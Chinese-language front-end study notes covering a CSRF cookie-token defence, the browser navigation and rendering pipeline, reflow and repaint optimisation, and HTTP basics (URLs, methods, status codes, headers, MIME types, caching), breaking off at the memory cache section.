- 在用户访问网站页面时，向请求域名注入一个 Cookie，内容为随机字符串（例如csrfcookie=v8g9e4ksfhw）。
- 在前端向后端发起请求时，取出 Cookie，并添加到 URL 的参数中（接上例 POST https://www.a.com/comment?csrfcookie=v8g9e4ksfhw）。
- 后端接口验证 Cookie 中的字段与 URL 参数中的字段是否一致，不一致则拒绝。
从url到页面发生了什么
在浏览器里，从输入 URL 到页面展示，这中间发生了什么？
- 概述
- 浏览器进程接收到用户输入的 URL 请求，浏览器进程便将该 URL 转发给网络进程
- 在网络进程中发起真正的 URL 请求
- 网络进程接收到了响应头数据，便解析响应头数据，并将数据转发给浏览器进程。
- 浏览器进程接收到网络进程的响应头数据之后，发送“提交导航 (CommitNavigation)”消息到渲染进程；
- 渲染进程接收到“提交导航”的消息之后，便开始准备接收 HTML 数据，接收数据的方式是直接和网络进程建立数据管道；
- 最后渲染进程会向浏览器进程“确认提交”，这是告诉浏览器进程：“已经准备好接受和解析页面数据了”。
- 浏览器进程接收到渲染进程“提交文档”的消息之后，便开始移除之前旧的文档，然后更新浏览器进程中的页面状态。
- 详细
-
用户输入。如果判断输入内容符合 URL 规则，比如输入的是 a.com ，那么地址栏会根据规则，把这段内容加上协议，合成为完整的 URL：https://a.com。
- 当用户输入关键字并键入回车之后，这意味着当前页面即将要被替换成新的页面，不过在这个流程继续之前，浏览器还给了当前页面一次执行 beforeunload 事件的机会，beforeunload 事件允许页面在退出之前执行一些数据清理操作，还可以询问用户是否要离开当前页面，比如当前页面可能有未提交完成的表单等情况，因此用户可以通过 beforeunload 事件来取消导航，让浏览器不再执行任何后续工作。
-
URL 请求过程。浏览器进程会把 URL 请求发送至网络进程，网络进程接收到 URL 请求后，会在这里发起真正的 URL 请求流程。
- 网络进程会查找本地缓存是否缓存了该资源。如果有缓存资源，那么直接返回资源给浏览器进程；如果在缓存中没有查找到资源，那么直接进入网络请求流程。这请求前的第一步是要进行 DNS 解析，以获取请求域名的服务器 IP 地址。如果请求协议是 HTTPS，那么还需要建立 TLS 连接。
- 接下来就是利用 IP 地址和服务器建立 TCP 连接。连接建立之后，浏览器端会构建请求行、请求头等信息，并把和该域名相关的 Cookie 等数据附加到请求头中，然后向服务器发送构建的请求信息。
- 服务器接收到请求信息后，会根据请求信息生成响应数据（包括响应行、响应头和响应体等信息），并发给网络进程。等网络进程接收了响应行和响应头之后，就开始解析响应头的内容。
- 重定向。如果发现返回的状态码是 301 或者 302，那么说明服务器需要浏览器重定向到其他 URL。这时网络进程会从响应头的 Location 字段里面读取重定向的地址，然后再发起新的 HTTP 或者 HTTPS 请求，一切又重头开始了。如果响应行是 200，那么表示浏览器可以继续处理该请求。
- 响应数据类型处理。Content-Type 是 HTTP 头中一个非常重要的字段， 它告诉浏览器服务器返回的响应体数据是什么类型。如果 Content-Type 字段的值被浏览器判断为下载类型，那么该请求会被提交给浏览器的下载管理器，同时该 URL 请求的导航流程就此结束。但如果是 HTML，那么浏览器则会继续进行导航流程。
-
准备渲染进程。默认情况下，Chrome 会为每个页面分配一个渲染进程，也就是说，每打开一个新页面就会配套创建一个新的渲染进程。但是，也有一些例外，在某些情况下，浏览器会让多个页面直接运行在同一个渲染进程中。如果从一个页面打开了另一个新页面，而新页面和当前页面属于同一站点（同一站点，协议和根域名相同，还包含了该根域名下的所有子域名和不同的端口）的话，那么新页面会复用父页面的渲染进程。
-
提交文档。浏览器进程将网络进程接收到的 HTML 数据提交给渲染进程。
- 首先当浏览器进程接收到网络进程的响应头数据之后，便向渲染进程发起“提交文档”的消息；
- 渲染进程接收到“提交文档”的消息后，会和网络进程建立传输数据的“管道”；
- 等文档数据传输完成之后，渲染进程会返回“确认提交”的消息给浏览器进程；
- 浏览器进程在收到“确认提交”的消息后，会更新浏览器界面状态，包括了安全状态、地址栏的 URL、前进后退的历史状态，并更新 Web 页面。
-
渲染阶段
渲染流程
渲染流水线由下面几个阶段组成：
- 构建 DOM 树
- 样式计算
- 布局阶段
- 分层
- 绘制
- 分块
- 栅格化
- 合成
详细
-
构建 DOM 树。将 html 解析为浏览器能够理解的结构内存中的 DOM 树。
-
样式计算（Recalculate Style）。计算出 DOM 节点中每个元素的具体样式。
- 将 css 转换为浏览器可以认识的 styleSheets。
- 转换样式表中的属性值，使其标准化
- 计算出 DOM 树中每个节点的具体样式。（CSS 的继承规则和层叠规则）每个 DOM 节点的样式被保存在 ComputedStyle 的结构内。
-
布局阶段。计算出 DOM 树中可见元素的几何位置。
- 创建布局树。构建一棵只包含可见元素布局树。遍历 DOM 树中的所有可见节点，并把这些节点加到布局树中，而不可见的节点会被布局树忽略掉。
- 布局计算。计算布局树节点的坐标位置。
-
分层。为特定的节点生成专用的图层，并生成一棵对应的图层树（LayerTree）。
- 并不是布局树的每个节点都包含一个图层，如果一个节点没有对应的层，那么这个节点就从属于父节点的图层。
- 拥有层叠上下文属性的元素会被提升为单独的一层。例如，使用定位属性的元素、定义透明属性的元素、使用 CSS 滤镜的元素等
- 需要剪裁（clip）的地方也会被创建为图层。例如，div 宽度有限，其中文字换行的时候就会裁剪。文字部分单独创建一个层，如果出现滚动条，滚动条也会被提升为单独的层。
-
图层绘制。把一个图层的绘制拆分成很多小的绘制指令，然后生成记录绘制顺序和绘制指令的列表。
-
分块。绘制列表生成后，主线程会把该绘制列表提交（commit）给合成线程。合成线程会将图层划分为图块（tile）。合成线程会按照视口附近的图块来优先生成位图，实际生成位图的操作是由栅格化来执行的。所谓栅格化，是指将图块转换为位图。
-
栅格化。所谓栅格化，是指将图块转换为位图。而图块是栅格化执行的最小单位。渲染进程维护了一个栅格化的线程池，所有的图块栅格化都是在线程池内执行。栅格化过程都会使用 GPU 来加速生成，生成的位图被保存在 GPU 内存中。
-
合成和显示。一旦所有图块都被光栅化，合成线程就会生成一个绘制图块的命令，浏览器进程里面有一个叫 viz 的组件，用来接收合成线程发过来的 DrawQuad 命令，然后根据 DrawQuad 命令，将其页面内容绘制到内存中，最后再将内存显示在屏幕上。
总结
- 渲染进程将 HTML 内容转换为能够读懂的 DOM 树结构。
- 渲染引擎将 CSS 样式表转化为浏览器可以理解的 styleSheets，计算出 DOM 节点的样式。
- 创建布局树，并计算元素的布局信息。
- 对布局树进行分层，并生成分层树。
- 为每个图层生成绘制列表，并将其提交到合成线程。
- 合成线程将图层分成图块，并在光栅化线程池中将图块转换成位图。
- 合成线程发送绘制图块命令 DrawQuad 给浏览器进程。
- 浏览器进程根据 DrawQuad 消息生成页面，并显示到显示器上。
重排和重绘
reflow（重排，或回流）
更新了元素的几何属性，就会发生 reflow（重排，或回流）。
通过 JavaScript 或者 CSS 修改元素的几何位置属性，例如改变元素的宽度、高度等，那么浏览器会触发重新布局，解析之后的一系列子阶段，这个过程就叫重排。无疑，重排需要更新完整的渲染流水线，所以开销也是最大的。
reflow 需要重新走的流程：
- 构建 DOM 树
- 样式计算
- 布局阶段
- 分层
- 绘制
- 分块
- 栅格化
- 合成
repaint （重绘）
修改了元素的背景颜色，那么布局阶段将不会被执行，因为并没有引起几何位置的变换，所以就直接进入了绘制阶段，然后执行之后的一系列子阶段，这个过程就叫重绘。相较于重排操作，重绘省去了布局和分层阶段，所以执行效率会比重排操作要高一些。
repaint 需要重新走的流程：
- 样式计算
- 绘制
- 分块
- 栅格化
- 合成
合成
CSS 的 transform 来实现动画效果，这可以避开重排和重绘阶段，直接在非主线程上执行合成动画操作。这样的效率是最高的，因为是在非主线程上合成，并没有占用主线程的资源，另外也避开了布局和绘制两个子阶段，所以相对于重绘和重排，合成能大大提升绘制效率。
合成 需要重新走的流程：
- 样式计算
- 分块
- 栅格化
- 合成
优化
哪些情况会发生重排？
- 加或者删除可见的DOM元素；
- 元素尺寸改变，例如边距、填充、边框、宽度和高度、字体大小
- 元素内容改变
- 浏览器窗口尺寸改变，resize事件发生时
- 查询某些属性或调用某些计算方法：offsetWidth、offsetHeight 等
可以去 csstriggers 网站查看哪些 css 样式的修改会重新触发 layout paint composite。
如何降低重排的用时？
-
减少不必要的 DOM 深度。在 DOM 树中的一个级别进行更改可能会致使该树的所有级别（上至根节点，下至所修改节点的子级）都随之变化。这会导致花费更多的时间来执行重排。
-
尽可能减少 CSS 规则的数量，并移除未使用的 CSS 规则。
-
如果您想进行复杂的渲染更改（例如动画），请在流程外执行此操作。您可以使用 position-absolute 或 position-fixed 来实现此目的。
-
避免使用不必要且复杂的 CSS 选择器（尤其是后代选择器），因为此类选择器需要耗用更多的 CPU 处理能力来执行选择器匹配。
-
样式集中改变
// bad var left = 10; var top = 10; el.style.left = left + "px"; el.style.top = top + "px"; // better el.style.cssText += "; left: " + left + "px; top: " + top + "px;"; // better el.className += " className"; -
分离读写操作
// bad 强制刷新 触发四次重排+重绘 div.style.left = div.offsetLeft + 1 + 'px'; div.style.top = div.offsetTop + 1 + 'px'; div.style.right = div.offsetRight + 1 + 'px'; div.style.bottom = div.offsetBottom + 1 + 'px'; // good 缓存布局信息 相当于读写分离 触发一次重排+重绘 var curLeft = div.offsetLeft; var curTop = div.offsetTop; var curRight = div.offsetRight; var curBottom = div.offsetBottom; div.style.left = curLeft + 1 + 'px'; div.style.top = curTop + 1 + 'px'; div.style.right = curRight + 1 + 'px'; div.style.bottom = curBottom + 1 + 'px'; -
通过使用 DocumentFragment 创建一个 dom 碎片，在它上面批量操作 dom，操作完成之后，再添加到文档中，这样只会触发一次重排。
-
position 属性为 absolute 或 fixed 的元素，重排开销比较小，不用考虑它对其他元素的影响
-
使用 transform 动画。可以避开重排和重绘阶段，直接在非主线程上执行合成动画操作。
浏览器本身对重排也做了优化
document.addEventListener('DOMContentLoaded', function () {
var date = new Date();
for (var i = 0; i < 70000; i++) {
var tmpNode = document.createElement("div");
tmpNode.innerHTML = "test" + i;
document.body.appendChild(tmpNode);
}
console.log(new Date() - date);
});
这是这段代码运行的 performance 记录截图：

可以看到大部分时间花在了 parse HTML 上，不停地解析 html 去生成新的 DOM 树。但是最后只在最后一个 Task 里 paint 了一次。
有一些值的计算会强制触发 reflow：
- offsetTop/Left/Width/Height
- scrollTop/Left/Width/Height
- clientTop/Left/Width/Height
- getComputedStyle(), or currentStyle in IE
例如下面的代码渲染页面就会非常缓慢：
document.addEventListener('DOMContentLoaded', function () {
var date = new Date();
for (var i = 0; i < 7000; i++) {
var tmpNode = document.createElement("div");
tmpNode.innerHTML = "test" + i;
document.body.offsetHeight; // 获取body的真实值
document.body.appendChild(tmpNode);
}
console.log("speed time", new Date() - date);
});
这是这段代码运行的 performance 记录截图：

可以看到因为去获取 offsetHeight 值，造成浏览器不停地执行布局阶段的计算（layout，创建布局树，计算布局树中节点的坐标），layout 操作耗费了 9 秒多的时间。
通过上面两个例子可以看到，浏览器将 parse HTML 和 Layout 还有 Recalculate Style 放在了同一个 Task 中，等到这三个操作都结束了，才会去 Update Layer Tree ，然后 paint。
也就是说将 构建 DOM 树，样式计算，创建布局树 这三个操作放在一起，因为它们比较复杂，耗时长，等它们对应的 Task 执行结束后，再去分层（创建图层树）和绘制。
起始行
组成
- http 报文的第一部分是起始行。
- 请求报文的起始行包括
- 请求类型（method）
- url
- 版本号 （version）
- 响应报文的起始行包括
- 版本号 （version）
- 状态码（status code）
- 原因短语（reason phrase）
// 请求的起始行
GET /test/test.html HTTP/1.1
// 响应的起始行
HTTP 1.1 200 OK
url 统一资源定位符
`https://www.example.com:80/path/to/myfile.html?key1=value1&key2=value2#anchor`
-
url (统一资源定位符，网址) 由哪些部分组成？
- 协议（scheme），是浏览器请求服务器资源的方法。
互联网支持多种协议，必须指明网址使用哪一种协议，默认是
HTTP协议。HTTP和HTTPS的协议名称后面，紧跟着一个冒号和两个斜杠（://）。其他协议不一定如此，邮件地址协议mailto:的协议名后面只有一个冒号，比如mailto:foo@example.com。 - 主机（host），是资源所在的网站名或服务器的名字，又称为
域名。有些主机没有域名，只有IP地址，比如192.168.2.15。 - 端口（port），同一个域名下面可能同时包含多个网站，它们之间通过端口区分。网站的默认端口是
80。端口紧跟在域名后面，两者之间使用冒号分隔，比如www.example.com:80。 - 路径（path），是资源在网站的位置。互联网的早期，路径是真实存在的物理位置。现在由于服务器可以模拟这些位置，所以路径只是虚拟位置。
- 查询参数（parameter），是提供给服务器的额外信息。参数的位置是在路径后面，两者之间使用
?分隔，例如?key1=value1&key2=value2。 查询参数可以有一组或多组。每组参数都是键值对（key-value pair）的形式，同时具有键名(key)和键值(value)，它们之间使用等号（=）连接。比如，key1=value就是一个键值对，key1是键名，value1是键值。多组参数之间使用&连接，比如key1=value1&key2=value2。 - 锚点（anchor），是网页内部的定位点。浏览器加载带有锚点的页面以后，会自动滚动到锚点所在的位置。
- 协议（scheme），是浏览器请求服务器资源的方法。
互联网支持多种协议，必须指明网址使用哪一种协议，默认是
-
组成 url 的字符有哪些？
- 第一种，合法字符：
- 26个英语字母（包括大写和小写）
- 10个阿拉伯数字
- 连词号
- - 句点
. - 下划线
_
- 第二种，18 个保留字符，要使用这些保留字符，必须使用它们的转义形式，在这些字符的十六进制
ASCII码前面加上百分号%。- !：%21
- #：%23
- $：%24
- &：%26
- '：%27
- (：%28
- )：%29
- *：%2A
- +：%2B
- ,：%2C
- /：%2F
- :：%3A
- ;：%3B
- =：%3D
- ?：%3F
- @：%40
- [：%5B
- ]：%5D
- 第三种，合法字符和保留字符除外的其他字符，理论上不需要手动转义，可以直接写在 URL 里面，浏览器会自动将它们转义，发给服务器。转义方法是使用这些字符的十六进制 UTF-8 编码，每两位算作一组，然后每组头部添加百分号
%。比如www.example.com/中国.html可以写作www.example.com/%e4%b8%ad%e5%9b%bd.html，中的转义形式是%e4%b8%ad，国是%e5%9b%bd。
- 第一种，合法字符：
请求类型
- GET 获取资源，GET 方法用来请求访问指定的资源。指定的资源经服务器端解析后返回响应内容。也就是说，如果请求的资源是文本，那就保持原样返回；
- POST 发送数据给服务器，例如表单或者 XMLHttpRequest 请求。
- PUT 使用请求中的负载创建或者替换目标资源。PUT 与 POST 方法的区别在于，PUT方法是幂等的：调用一次与连续调用多次是等价的（即没有副作用），而连续调用多次POST方法可能会有副作用，比如将一个订单重复提交多次。
- HEAD 获得响应首部，HEAD 方法和 GET 方法一样，只是不返回报文主体部分。用于确认 URI 的有效性及资源更新的日期时间等。
- DELETE 用来删除资源，是与 PUT 相反的方法。DELETE 方法按请求 URI 删除指定的资源。
- OPTIONS 询问支持的方法，OPTIONS 方法用来查询针对请求 URI 指定的资源支持的方法。
- TRACE 追踪路径，TRACE 方法是让 Web 服务器端将之前的请求通信环回给客户端的方法。
- CONNECT 要求用隧道协议连接代理，CONNECT 方法要求在与代理服务器通信时建立隧道，实现用隧道协议进行 TCP 通信。主要使用 SSL（Secure Sockets Layer，安全套接层）和 TLS（Transport Layer Security，传输层安全）协议把通信内容加密后经网络隧道传输。
状态码
- 1xx 请求已经被接受，还需继续处理
- 100 Continue 目前为止一切正常, 客户端应该继续请求
- 101 Switching Protocol 服务器应客户端升级协议的请求（Upgrade headers）正在切换协议
- 103 Early Hints 一般和 Link header 一起使用，来允许用户在服务器还在准备响应数据的时候预加载一些资源。
- 2xx 请求已成功被服务器接收理解
- 200 Ok 请求已经成功
- 201 Created 创建了新的资源
- 202 Accepted 如果服务器在接受请求后，需要进行一个异步处理才能有结果，并且觉得不需要让 TCP 连接保持到结果出来再返回，它可以返回 202 Accepted，意思是请求已接受，但没有立即可返回的结果。
- 204 No Content 在并没有新文档的情况下，浏览器继续显示先前的文档
- 205 Reset Content 用来通知客户端重置页面，比如清空表单内容、重置 canvas 状态或者刷新用户界面
- 206 Partial Content 断点续传和多线程下载都是通过 206 Partial Content 实现的。请求的 header 必须包含一个 Range 字段，表明自己请求第几个字节到第几个字节的内容。如果服务器支持的话，就返回 206 Partial Content，然后使用 header 的 Content-Range 指明范围，并在 body 内提供这个范围内的数据。
- 3xx 重定向（这类状态码代表需要客户端采取进一步的操作才能完成请求。通常，这些状态码用来重定向，后续的请求地址（重定向目标）在本次响应的 Location 域中指明。）
- 301 Moved Permanently 永久性重定向。目标由 header 的 Location 字段给出，同时 body 中也应该有指向目标的链接。新请求使用的方法应该和原请求的一致。如果用户使用 HEAD 和 GET 以外的方式发起原请求，客户端在遇到 301 Moved Permanently 后应当询问用户是否对新的 URI 发起新请求。
- 302 Found 这应该是浏览器实现最不符合标准的一个状态码了。理论上，除了临时性这一点，302 Found 跟 301 Moved Permanently 应该是完全一样的。然而实质上，很多浏览器在遇到 302 Found 后就会使用 GET 去请求新的 URI，而无论原请求使用的是何种方法。由于这种现象的普遍存在，使得这成为了一个与书面标准相违背的事实标准，新的客户端在实现时很难选择应该遵守哪一个标准，所以 RFC 2616 专门新增了 303 See Other 和 307 Temporary Redirect 两个状态码来消除二义性。
- 303 See Other 临时性重定向，且总是使用 GET 请求新的 URI。
- 304 Not Modified 如果客户端发起了一个「条件 GET」，同时资源确实没被修改过，那么服务器端就应该返回 304 Not Modified，同时 body 不包含任何内容。所谓的「条件 GET」，是指 GET 的 header 带上了 If-Modified-Since 或 If-None-Match 字段。这两个 header 就是「条件」，如果条件符合了 GET 就应该正常执行，否则就应该返回 304 Not Modified，以便告诉客户端它想要请求的资源在上一次请求之后没有被更新过，客户端可以继续使用之前的版本。
- 307 Temporary Redirect 临时性重定向，且总是使用原请求的方法来进行新请求。
- 4xx 客户端错误
- 400 Bad Request 语法无效，服务器无法理解该请求
- 401 Unauthorized 缺少身份验证凭证
- 403 Forbidden 拒绝授权访问，和服务器资源相关
- 404 Not Found 请求的资源不存在
- 405 Method Not Allowed 禁止使用当前方法请求
- 407 Proxy Authentication Required 缺少位于代理服务器要求的身份验证凭证
- 408 Request Timeout 请求时间过长，空闲连接将被关闭
- 409 Conflict 表示请求与服务器目标资源的当前状态相冲突
- 410 Gone 请求资源在原服务器上永久性丢失
- 411 Length Required 缺少确定的 Content-Length 请求头
- 412 Precondition Failed（先决条件失败）表示客户端错误，意味着对于目标资源的访问请求被拒绝。这通常发生于采用除 GET 和 HEAD 之外的方法进行条件请求时，由首部字段 If-Unmodified-Since 或 If-None-Match 规定的先决条件不成立的情况下。这时候，请求的操作——通常是上传或修改文件——无法执行，从而返回该错误状态码。
- 413 Payload Too Large 请求 body 过大
- 414 URI Too Long URI过长
- 415 Unsupported Media Type 请求所带的附件的格式类型服务器不知道如何处理
- 416 Range Not Satisfiable 错误状态码意味着服务器无法处理所请求的数据区间。最常见的情况是所请求的数据区间不在文件范围之内，也就是说，Range 首部的值，虽然从语法上来说是没问题的，但是从语义上来说却没有意义。
- 422 Unprocessable Entity 服务器无法理解请求体
- 426 Upgrade Required 表示服务器拒绝处理客户端使用当前协议发送的请求，但是可以接受其使用升级后的协议发送的请求
- 429 Too Many Requests 表示在一定的时间内用户发送了太多的请求
- 431 Request Header Fields Too Large 表示由于请求头字段的值过大
- 5xx 服务器错误
- 500 Internal Server Error
- 501 Not Implemented 服务器错误响应码表示请求的方法不被服务器支持
- 502 Bad Gateway
- 503 Service Unavailable 服务器由于在维护或已经超载而无法响应
- 504 Gateway Timeout 表示扮演网关或者代理的服务器无法在规定的时间内获得想要的响应。
- 505 HTTP Version Not Supported 表示服务器不支持请求所使用的 HTTP 版本。
头部
请求头
cache
- If-Modified-Since
If-Modified-Since: Wed, 21 Oct 2015 07:28:00 GMT
把浏览器端缓存页面的最后修改时间发送到服务器去，服务器会把这个时间与服务器上实际文件的最后修改时间进行对比。如果时间一致，那么返回 304 （Not Modified 资源没有被修改过），客户端就直接使用本地缓存文件。如果时间不一致，就会返回 200 和新的文件内容。客户端接到之后，会丢弃旧文件，把新文件缓存起来，并显示在浏览器中.
- If-None-Match
If-None-Match: "bfc13a64729c4290ef5b2c2730249c88ca92d82d"
If-None-Match: W/"67ab43", "54ed21", "7892dd"
If-None-Match: *
If-None-Match 和 ETag 一起工作，工作原理是在 HTTP Response 中添加 ETag 信息。 当用户再次请求该资源时，将在 HTTP Request 中加入If-None-Match 信息(ETag的值)。如果服务器验证资源的 ETag 没有改变（该资源没有更新），将返回一个 304 （Not Modified 资源没有被修改过）状态告诉客户端使用本地缓存文件。否则将返回 200 状态和新的资源和 Etag。使用这样的机制将提高网站的性能。
- Pragma
Pragma: no-cache
防止页面被缓存， 在 HTTP/1.1 版本中，它和 Cache-Control: no-cache 作用一模一样。Pargma只有一个用法， 例如： Pragma: no-cache。注意: 在HTTP/1.0 版本中，只实现了 Pragema: no-cache, 没有实现 Cache-Control。
- Cache-Control
cache-control 既是请求头也是响应头。
前端无法通过 meta 标签的 http-equiv 属性设置 cache-control，因为根据 whatwg html 规范可知，meta 标签的 http-equiv 属性只允许设置 content-language content-type default-style set-cookie x-ua-compatible content-security-policy 这些值。
Cache-Control: max-age=<seconds>
Cache-Control: max-stale[=<seconds>]
Cache-Control: min-fresh=<seconds>
Cache-control: no-cache
Cache-control: no-store
Cache-control: no-transform
Cache-control: only-if-cached
Cache-control: must-revalidate
Cache-control: no-cache
Cache-control: no-store
Cache-control: no-transform
Cache-control: public
Cache-control: private
Cache-control: proxy-revalidate
Cache-Control: max-age=<seconds>
Cache-control: s-maxage=<seconds>
Cache-control: immutable
Cache-control: stale-while-revalidate=<seconds>
Cache-control: stale-if-error=<seconds>
Cache-Control: public, max-age=31536000
Cache-Control 就是报头字段名，public 和 max-age=31536000 是指令。Cache-Control 报头可以接受一个或多个指令。各个指令含义如下
- public 和 private
- public 意味着包括 CDN、代理服务器之类的任何缓存都可以存储响应的副本。
- private 表示只有浏览器可以缓存文件。
- no-cache 和 no-store
- no-cache 在和服务器验证过并且服务器通知可以使用缓存的副本之前，不能使用缓存中的副本。
- no-store 不使用任何缓存
- max-age 和 s-maxage
- max-age 设置缓存存储的最大周期，超过这个时间缓存被认为过期(单位秒)。与 Expires 相反，时间是相对于请求的时间。
- s-maxage s-maxage 会覆盖 max-age 指令，只适用于 public 缓存。
Cache-Control: max-age=60 - must-revalidate 和 proxy-revalidate
- must-revalidate 配合 max-age 使用，一旦资源过期（超过max-age），必须向服务器重新验证。
- proxy-revalidate 只适用于 public 缓存，被 private 缓存忽略。
Cache-Control: must-revalidate, max-age=600 - immutable 告诉浏览器这个文件是永远都不可变的。例如 style.ae3f66.css 这个文件是唯一的，一旦文件修改就会得到新的文件，所以是不可变的。可以让浏览器知道它不必检查更新版本：永远不会有新的版本，因为一旦内容改变，它就不存在了。
Cache-Control: max-age=31536000, immutable - stale-while-revalidate 提供的是一个宽限期（由我们设定），当我们检查新版本时，允许浏览器在这段宽限期期间使用过期的（旧的）资源。
Cache-Control: max-age=31536000, stale-while-revalidate=86400 // “这个文件还可以用一年，但一年过后，额外给你一天你可以继续使用旧资源，直到你在后台重新验证了它”。 - stale-if-error 如果重新验证资源时返回了 500 之类的错误，stale-if-error 会给浏览器一个使用旧的响应的宽限期。
Cache-Control: max-age=2419200, stale-if-error=86400 // 缓存的有效期为 28 天（2,419,200 秒），过后如果我们遇到内部错误就额外提供一天（86,400 秒），此间允许访问旧版本资源。 - no-transform 告诉中间代理不得对该资源进行任何更改或转换
- only-if-cached 表明客户端只接受已缓存的响应，并且不要向原始服务器检查是否有更新的拷贝
client
-
Accept 浏览器端可以接受的媒体类型，例如：Accept: text/html 代表浏览器可以接受服务器回发的类型为 text/html 也就是我们常说的html文档，如果服务器无法返回 text/html 类型的数据，服务器应该返回一个 406 错误(non acceptable)。通配符 * 代表任意类型。例如 Accept: / 代表浏览器可以处理所有类型，一般浏览器发给服务器都是发这个。
-
Accept-Encoding 浏览器告知能够理解的编码方法，通常指定压缩方法，是否支持压缩，支持什么压缩方法（gzip，deflate）。例如： Accept-Encoding: gzip, deflate
-
Accept-Language 浏览器声明自己能够理解的语言。例如：Accept-Language: en-US
-
Accept-Charset 浏览器声明自己可以处理的字符集。例如：Accept-Charset: utf-8
-
User-Agent 告诉服务器自己的浏览器和操作系统版本。
other
-
Cookie 将 cookie 值发送给服务器
Cookie: PHPSESSID=298zf09hf012fh2; csrftoken=u32t4o3tb3gg43; _gat=1; -
Content-Length 发送给服务器的 body 的数据长度
-
Content-Type 发送给服务器的数据的 MIME 类型
-
Referer 包含了当前页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。
-
Connection 决定当前的事务完成后，是否会关闭网络连接。如果该值是“keep-alive”，网络连接就是持久的，不会关闭，使得对同一个服务器的请求可以继续在该连接上完成。
Connection: keep-alive Connection: close -
Host 请求将要发送到的服务器主机名和端口号
-
If-Unmodified-Since 如果从某个时间点算起, 文件没有被修改。用途：断点续传(一般会指定Range参数). 要想断点续传, 那么文件就一定不能被修改, 否则就不是同一个文件。如果没有被修改: 则开始`继续'传送文件: 服务器返回: 200 。如果文件被修改: 则不传输, 服务器返回: 412 Precondition failed (预处理错误)
响应头
cache
-
Clear-Site-Data 清除当前请求网站的浏览器数据。
// 单个参数 Clear-Site-Data: "cache" // 多个参数 (用逗号分隔) Clear-Site-Data: "cache", "cookies" // 通配 Clear-Site-Data: "*"- Clear-Site-Data: "cache" 删除本URL原始响应的本地缓存数据
- Clear-Site-Data: "cookies" 删除URL响应的所有cookie
- Clear-Site-Data: "storage" 删除URL原响应的所有DOM存储。(localStorage, sessionStorage, IndexedDB 等)
- Clear-Site-Data: "executionContexts" 表示服务端希望浏览器重新加载本请求(Location.reload)
- Clear-Site-Data: "*" 删除所有类型数据
-
Date 当前消息的日期和时间
-
Expires 值是一个日期时间，在此时间之后，响应会过期
-
Vary 缓存服务器会将某接口的首次请求结果缓存下来，后面在发生相同请求的时候缓存服务器会拿着缓存的Vary来进行判断。比如Vary: Accept-Encoding,User-Agent，那么Accept-Encoding与User-Agent两个请求头的内容，就会作为判断是否返回缓存数据的依据，当缓存服务器中相同请求的缓存数据的编码格式、代理服务与当前请求的编码格式、代理服务一致，那就返回缓存数据，否则就会从服务器重新获取新的数据。
-
ETag 资源特定版本的标识符，和 If-None-Match 请求头一起工作。
-
Last-Modified 服务器返回的资源做出修改的日期及时间。和 If-Modified-Since 或 If-Unmodified-Since 请求头一起工作。
other
- Content-Length 服务器响应的数据长度
- Content-Type 响应数据类型和字符集
- Content-Encoding 服务器使用了什么压缩方法
- Content-Language 响应对象是什么语言提供的
- Server 服务器软件信息
- Location 指定需要将页面重新定向至的地址。3xx 的响应中会出现。
主体
请求和响应中的 body 内容的类型都由 Content-Type 头部来指定。
MIME 组成结构如下： 由类型与子类型两个字符串中间用 '/' 分隔而组成。不允许空格存在。对大小写不敏感，但传统都是小写。允许额外参数。
type/subtype;parameter=value
- type 对应通用类目，例如：text/video等。
- subtype 对应准确的子类，例如 text 下面细分为 plain(纯文本)、html(html源码)等。
- parameter可选一般是 charset 或者 boundary 等。
Content-Type: text/html; charset=utf-8
Content-Type: multipart/form-data; boundary=something
-
包含两种类别：独立类型和 multipart 类型
- 独立类型代表一个单独的文件或者媒体的类型
- text 文本数据包括一些人类可读的内容或者源码。例如 text/plain, text/csv, text/html.
- application 数据为二进制的一种，例如 application/octet-stream,application/pdf,application/pkcs8,application/zip.
- audio 音频或者音乐数据，例如 audio/mpeg, audio/vorbis
- video 视频数据或者文件，例如 video/mp4
- image 图像或图形数据，包括位图和矢量静止图像以及静止图像格式的动画版本。例如 image/gif, image/png, image/jpeg
- multipart 表示细分领域的文件类型的种类，经常对应不同的 MIME 类型。例如表单就是 multipart/form-data 类型
- 独立类型代表一个单独的文件或者媒体的类型
-
常见 Content-Type
- text/plain
- text/css
- text/html
- text/javascript
- application/json
- application/x-www-form-urlencoded 表单提交中默认的类型。参数编码规则：
- 字母 数字 -（连词号） _（下划线） .（点） *（星号） 不被编码，其他一些保留字符被编码成百分号
%加上十六进制ASCII码的形式，例如&被编码成%26。剩下其他字符例如汉字被编码成使用这些字符的十六进制 UTF-8 编码，每两位算作一组，然后每组头部添加百分号%。例如中国被编码成%e4%b8%ad%e5%9b%bd。 - 参数写成 key=value 的形式，多组参数之间用 & 连接。
- 空格被转为
+符号。
- 字母 数字 -（连词号） _（下划线） .（点） *（星号） 不被编码，其他一些保留字符被编码成百分号
- multipart/form-data 涉及文件上传的表单请求时使用的类型。 作为多部分文档格式，它由边界线（一个由'--'开始的字符串）划分出的不同部分组成。每一部分有自己的实体，以及自己的 HTTP 请求头，Content-Disposition和 Content-Type 用于文件上传领域，最常用的 (Content-Length 因为边界线作为分隔符而被忽略）。
Content-Type: multipart/form-data; boundary=aBoundaryString (other headers associated with the multipart document as a whole) --aBoundaryString Content-Disposition: form-data; name="myFile"; filename="img.jpg" Content-Type: image/jpeg (data) --aBoundaryString Content-Disposition: form-data; name="myField" (data) --aBoundaryString (more subparts) --aBoundaryString--
注意：enctype 是 form 表单的属性，当 method 属性值为 post 时，enctype 就是将表单的内容提交给服务器的 MIME 类型 。可能的取值有：
- application/x-www-form-urlencoded：未指定属性时的默认值。
- multipart/form-data：当表单包含 type=file 的 input 元素时使用此值。
缓存
按缓存位置分类
我们可以在 Chrome 的开发者工具中，Network -> Size 一列看到一个请求最终的处理方式：如果是资源大小 (多少 K， 多少 M 等) 就表示是网络请求，否则会列出 from memory cache, from disk cache 和 from ServiceWorker。它们的优先级是：(由上到下寻找，找到即返回；找不到则继续)
- Service Worker
- Memory Cache
- Disk Cache
- 网络请求
memory cache
memory cache 是内存中的缓存，(与之相对 disk cache 就是硬盘上的缓存)。按照操作系统的常理：先读内存，再读硬盘。
